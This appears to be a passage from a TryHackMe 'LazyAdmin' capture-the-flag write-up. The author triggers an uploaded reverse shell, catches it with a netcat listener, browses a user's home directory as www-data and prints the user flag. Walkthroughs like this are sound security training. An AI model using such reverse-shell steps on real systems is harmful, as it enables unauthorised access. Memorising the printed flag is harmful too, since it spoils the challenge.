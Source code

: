 <img src="../../Flameshots/2e68cc6ef240c5105612418ee0debcde.png" alt="2e68cc6ef240c5105612418ee0debcde.png" width="296" height="163" class="jop-noMdConv">

We copy paste the text in the Ads prompt and upload it :

<img src="../../Flameshots/d15c7ba3fcbfaca58b485d34e9a7833c.png" alt="d15c7ba3fcbfaca58b485d34e9a7833c.png" width="571" height="203" class="jop-noMdConv">

## Netcat

We can then activate the [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) by going to `http://lazy.thm/content/inc/ads/Rev_Shell`, but first we need to setup a [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener by using the bash command:

```
nc -lvnp 1234
```

This gives the reverse shell something to connect back to.

<img src="../../Flameshots/3e3eb8cb1fbe2e85c52b7871c73beae2.png" alt="3e3eb8cb1fbe2e85c52b7871c73beae2.png" width="314" height="135" class="jop-noMdConv">

And once we click it we have it :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/LazyAdmin]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.205.167] 42568
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux                                                                                       
 18:32:12 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```
